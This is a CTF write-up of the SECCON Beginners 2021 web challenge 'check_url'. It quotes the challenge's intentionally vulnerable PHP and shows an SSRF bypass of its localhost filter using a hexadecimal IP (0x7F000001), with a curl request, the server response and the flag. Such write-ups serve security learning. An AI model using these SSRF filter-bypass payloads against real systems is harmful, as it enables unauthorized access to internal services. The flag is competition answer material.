 # SECCON Beginners CTF 2021 - Writeup

I participated in SECCON Beginners CTF 2021 held from May 22 (Sat) 14:00 JST to May 23 (Sun) 14:00 JST with my company's team.
I solved only one problem while others in my team solved it smoothly, and I will describe the writeup below.

## Web

### check_url

````
Have you ever used  curl  ?  
    
想定難易度: Easy
````

When you access the specified URL, a screen to check the site of the URL you entered will be displayed.  
The source code is as follows.

````
<!-- HTML Template -->
          <?php
            error_reporting(0);
            if ($_SERVER["REMOTE_ADDR"] === "127.0.0.1"){
              echo "Hi, Admin or SSSSRFer<br>";
              echo "********************FLAG********************";
            }else{
              echo "Here, take this<br>";
              $url = $_GET["url"];
              if ($url !== "https://www.example.com"){
                $url = preg_replace("/[^a-zA-Z0-9\/:]+/u", "👻", $url); //Super sanitizing
              }
              if(stripos($url,"localhost") !== false || stripos($url,"apache") !== false){
                die("do not hack me!");
              }
              echo "URL: ".$url."<br>";
              $ch = curl_init();
              curl_setopt($ch, CURLOPT_URL, $url);
              curl_setopt($ch, CURLOPT_CONNECTTIMEOUT_MS, 2000);
              curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
              echo "<iframe srcdoc='";
              curl_exec($ch);
              echo "' width='750' height='500'></iframe>";
              curl_close($ch);
            }
          ?>
<!-- HTML Template -->
````

(1) Execute SSRF, and if the IP connected to by $_SERVER["REMOTE_ADDR"] is determined to be `127.0.0.1`, flag will be displayed.  

```
            if ($_SERVER["REMOTE_ADDR"] === "127.0.0.1"){
              echo "Hi, Admin or SSSSRFer<br>";
```


(2) If the URL accessed is not https://www.example.com, all non-alphanumeric characters will be replaced with 👻.  

```
              if ($url !== "https://www.example.com"){
                $url = preg_replace("/[^a-zA-Z0-9\/:]+/u", "👻", $url); //Super sanitizing
```

(3) If the URL contains localhost or apache characters, it will be rejected with `do not hack me`.  


```
              if(stripos($url,"localhost") !== false || stripos($url,"apache") !== false){
                die("do not hack me!");
```

(4) Convert 127.0.0.1 to decimal ⇒ NG (400 error)
https://check-url.quals.beginners.seccon.jp/?url=https://2130706433

(5) Express 127.0.0.1 by 0 ⇒ NG (400 error)
https://check-url.quals.beginners.seccon.jp/?url=https://0/

(6) Convert 127.0.0.1 to hexadecimal ⇒ OK (200)

```
root@kali:~# curl -k https://check-url.quals.beginners.seccon.jp/?url=https://0x7F000001
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1.0"/>
  <title>c(heck)_url</title>

  <!-- CSS  -->
  <link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">
  <link href="css/materialize.min.css" type="text/css" rel="stylesheet" media="screen,projection"/>
  <link href="css/style.css" type="text/css" rel="stylesheet" media="screen,projection"/>
</head>
<body>

  <nav class="light-blue lighten-1" role="navigation">
    <div class="nav-wrapper container">
      <a id="logo-container" href="/" class="brand-logo">c(heck)_url</a>
    </div>
  </nav>

  <div class="section no-pad-bot" id="index-banner">
    <div class="container">
      <br><br>
      <h1 class="header center orange-text">c(heck)_url</h1>
      <div class="row center">
        <h5 class="header col s12 light">
        You can run <b>curl</b> <a href="/?url=https://www.example.com">like this</a>!<br><br>
          Here, take this<br>URL: https://0x7F000001<br><iframe srcdoc='<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1.0"/>
  <title>c(heck)_url</title>

  <!-- CSS  -->
  <link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">
  <link href="css/materialize.min.css" type="text/css" rel="stylesheet" media="screen,projection"/>
  <link href="css/style.css" type="text/css" rel="stylesheet" media="screen,projection"/>
</head>
<body>

  <nav class="light-blue lighten-1" role="navigation">
    <div class="nav-wrapper container">
      <a id="logo-container" href="/" class="brand-logo">c(heck)_url</a>
    </div>
  </nav>

  <div class="section no-pad-bot" id="index-banner">
    <div class="container">
      <br><br>
      <h1 class="header center orange-text">c(heck)_url</h1>
      <div class="row center">
        <h5 class="header col s12 light">
        You can run <b>curl</b> <a href="/?url=https://www.example.com">like this</a>!<br><br>
          Hi, Admin or SSSSRFer<br>ctf4b{5555rf_15_53rv3r_51d3_5up3r_54n171z3d_r3qu357_f0r63ry}        </h5>
      </div>

    </div>
  </div>


  <!--  Scripts-->
  <script src="https://code.jquery.com/jquery-2.1.1.min.js"></script>
  <script src="js/materialize.min.js"></script>
  <script src="js/init.js"></script>

  </body>
</html>
' width='750' height='500'></iframe>        </h5>
      </div>

    </div>
  </div>


  <!--  Scripts-->
  <script src="https://code.jquery.com/jquery-2.1.1.min.js"></script>
  <script src="js/materialize.min.js"></script>
  <script src="js/init.js"></script>

  </body>
</html>
```


###### flag : ctf4b{5555rf_15_53rv3r_51d3_5up3r_54n171z3d_r3qu357_f0r63ry}
